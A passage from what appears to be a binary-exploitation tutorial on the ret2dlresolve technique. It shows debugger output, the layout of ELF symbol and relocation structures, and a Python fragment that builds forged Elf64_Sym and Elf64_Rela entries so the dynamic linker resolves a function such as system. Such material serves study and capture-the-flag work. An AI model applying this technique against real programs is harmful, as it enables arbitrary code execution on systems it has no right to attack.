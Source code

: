 ```
gef➤  # x/3xg <SYMTAB> + (<r_info> >> 32)*24
gef➤  x/3xg 0x4002c0 + (0x0000000100000007 >> 32)*24
0x4002d8:   0x000000120000001a   0x0000000000000000
0x4002e8:   0x0000000000000000
```

So the first 8-byte address will contain 4 variables which are: 

```
st_name = p32(0x1a)  (4 bytes)             0000001a
st_info = p8(12)     (1 byte)            12
st_other = p8(0)     (1 byte)          00
st_shndx = p16(0)    (2 bytes)   0x0000
```

The next two 8-byte address are `st_value = p64(0)` and `st_size = p64(0)`. So we will change the st_name with the fake st_name value above

Next, we will build up the fake structure for Elf64_Rela. This is the structure of it in c code:

```
typedef struct elf64_rela {
    Elf64_Addr r_offset;      /* Location at which to apply the action (8 bytes) */
    Elf64_Xword r_info;       /* index and type of relocation (8 bytes) */
    Elf64_Sxword r_addend;    /* Constant addend used to compute value (8 bytes) */
} Elf64_Rela;
```

We will want to fake r_offset and r_info, the variable `r_addend` will be remain as null byte as the other Elf64_Rela do. We can get value of r_info from symbol_number with this calculation:

```
r_info = (symbol_number << 32) | 0x7
```

And the r_offset can be any writable and controllable place. If you doesn't have any controlled memory, just write the address of any @got to r_offset and the resolved address will go to that @got.

And for the last struct, we will write what everfunction we want such as `system`, `write`, `read`, ect. 

The python code for building the structure can be generally like this:

```
SYMTAB = 0x400290
JMPREL = 0x400300
STRTAB = 0x4002c0

###################
### Get address ###
###################
Elf64_Sym_addr = 0x403e00
symbol_number = (Elf64_Sym_addr - SYMTAB)/24

Elf64_Rela_addr = 0x403e40
reloc_arg = (Elf64_Rela_addr - JMPREL)/24

STRTAB_addr = 0x403e80
st_name = STRTAB_addr - STRTAB

#############################
### Create fake structure ###
#############################
st_name = p32(st_name)
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
st_size = p64(0)
```